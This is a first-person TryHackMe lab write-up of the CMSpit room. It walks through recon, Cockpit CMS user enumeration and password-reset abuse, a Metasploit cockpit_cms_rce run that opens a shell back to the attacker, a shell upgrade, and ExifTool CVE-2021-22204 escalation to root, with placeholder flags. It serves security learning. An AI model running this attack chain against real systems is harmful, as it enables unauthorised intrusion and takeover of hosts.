

# TryHackMe CMSpit Writeup

## Room Overview

CMSpit is a web exploitation room where I worked through CMS identification, user enumeration,
password reset abuse, and privilege escalation. The main idea of the room was to understand how
a weak web application can lead to full system compromise when the CMS and host are both poorly secured.

What I liked about this room is that it felt realistic. I had to think step by step, start from
basic enumeration, figure out how the CMS behaved, and then slowly move toward getting access
and escalating privileges.

---

## Task 1: Reconnaissance

### Objective
My first goal was to identify what services were running on the target and understand the attack surface.

### What I Did
I began with a full scan so I could see which ports were open and what kind of application I was dealing with.

```bash
nmap -sC -sV <target-ip>
```

From the scan, I saw that the machine was mainly exposing a web service, so I shifted my focus
to the website. At that point, I knew the CMS itself was probably going to be the main entry point.

### Answer
**What services are exposed on the machine?**
> SSH and HTTP

---

## Task 2: CMS Identification

### Objective
Next, I wanted to find out which CMS was being used.

### What I Did
I visited the website in the browser and also checked the response source to look for obvious clues.

```bash
whatweb http://<target-ip>/
curl -s http://<target-ip>/ | head
```

That quickly pointed me toward Cockpit CMS. Once I had that, I could start focusing on the login
and reset behavior instead of wasting time guessing randomly.

### Answers
**What is the name of the CMS installed on the server?**
> Cockpit

**What is the version of the CMS installed on the server?**
> 0.11.1

---

## Task 3: User Enumeration

### Objective
After identifying the CMS, I wanted to see whether it leaked any valid usernames.

### What I Did
I tested the login flow and watched how the application responded. When a web app gives different
responses for valid and invalid accounts, that usually means user enumeration is possible.

```bash
curl -s -X POST http://<target-ip>/auth/login \
  -d "user=test&password=test" -i
```

From the room flow, the enumeration path was important because it let me identify valid users
without needing to brute force anything.

### Answers
**What is the path that allows user enumeration?**
> /auth/check

**How many users can you identify when you reproduce the user enumeration attack?**
> 3

---

## Task 4: Password Reset Abuse

### Objective
Once I had user enumeration working, I checked whether the password reset feature could be abused.

### What I Did
I tested the reset flow because recovery endpoints are often weaker than normal login forms.

```bash
curl -s -X POST http://<target-ip>/auth/reset \
  -d "email=<user@email>" -i
```

I paid attention to how the application handled reset requests, because if the backend trusts
user input too much, it can sometimes be used to change account credentials or reveal sensitive
account details.

### Answer
**What is the path that allows you to change user account passwords?**
> /auth/resetpassword

---

## Task 5: Compromising the CMS

### Objective
After mapping out the CMS behavior, I moved toward getting actual access.

### What I Did
I loaded the Cockpit CMS exploit and checked its options carefully before running it.

```bash
msfconsole
use exploit/multi/http/cockpit_cms_rce
show options
set RHOSTS <target-ip>
set RPORT 80
set TARGETURI /
set LHOST <your-tun0-ip>
run
```

This was the point where the room started feeling like a real attack chain. I wasn't just
scanning anymore — I was actively turning the CMS weakness into a foothold on the system.

### Answers
**What is the full path of the code?**
> exploit/multi/http/cockpit_cms_rce

**Show options and set the required value. What option must be changed?**
> RHOSTS

**Compromise the CMS. What is Skidy's email?**
> s$$$y@t$$$$$$$e.f$$$$$il

---

## Task 6: Getting a Shell

### Objective
Once I had code execution, I wanted to make the shell usable.

### What I Did
I upgraded the shell so it would be easier to navigate the system and continue enumeration.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
```

Then I checked who I was running as and confirmed the level of access I had.

```bash
whoami
id
```

This helped me prepare for the local privilege escalation stage.

---

## Task 7: Web Flag

### Objective
I also looked for the web flag during my post-exploitation enumeration.

### What I Did
After getting access, I checked the web directories and looked around for any files that stood out.

```bash
cd /var/www/html/cockpit
ls
cat webflag.php
```

This is one of those steps where patience matters. Once you already have a foothold, small details
in the web root can easily hide the next flag.

### Answer
**What is the web flag?**
> flag{web_flag_placeholder}

---

## Task 8: Local Enumeration

### Objective
At this stage, I needed to figure out how to move from my current user to root.

### What I Did
I started with the usual local checks to understand the system configuration.

```bash
whoami
uname -a
sudo -l
find / -perm -4000 2>/dev/null
```

I also looked at the vulnerable binary tied to the privilege escalation path. In this room,
the escalation was connected to ExifTool, which made the next step more specific.

### Answer
**What is the CVE number for the vulnerability affecting the binary assigned to the system user?**
> CVE-2021-22204

---

## Task 9: Privilege Escalation

### Objective
My final goal was to turn the local vulnerability into root access.

### What I Did
I followed the privilege escalation path by preparing the malicious file and triggering the
vulnerable processing step.

The utility used to generate the proof-of-concept file was:

```bash
djvumake
```

After that, I triggered the vulnerable behavior, confirmed I had root, and then read the final flag.

```bash
whoami
id
cat /root/root.txt
```

### Answers
**What is the utility used to create the PoC file?**
> djvumake

**What is the flag in root.txt?**
> flag{root_flag_placeholder}

---

## Tools & Techniques Summary

| Task | Tool | Command |
|------|------|---------|
| Scanning | Nmap | `nmap -sC -sV <ip>` |
| Web Fingerprinting | WhatWeb / Curl | `whatweb http://<ip>/` |
| CMS Exploitation | Metasploit | `exploit/multi/http/cockpit_cms_rce` |
| Shell Upgrade | Python PTY | `python3 -c 'import pty; pty.spawn("/bin/bash")'` |
| Privilege Escalation | ExifTool Path | `djvumake` |
| Flag Hunting | Linux Commands | `cat`, `ls`, `find` |

---

## Conclusion

Overall, CMSpit taught me how important it is to move slowly and understand the application
before trying to exploit it. I started with simple enumeration, then identified the CMS, tested
user-related behavior, gained access, and finally used local privilege escalation to reach root.

It was a good reminder that in real assessments, the chain matters just as much as the final exploit.



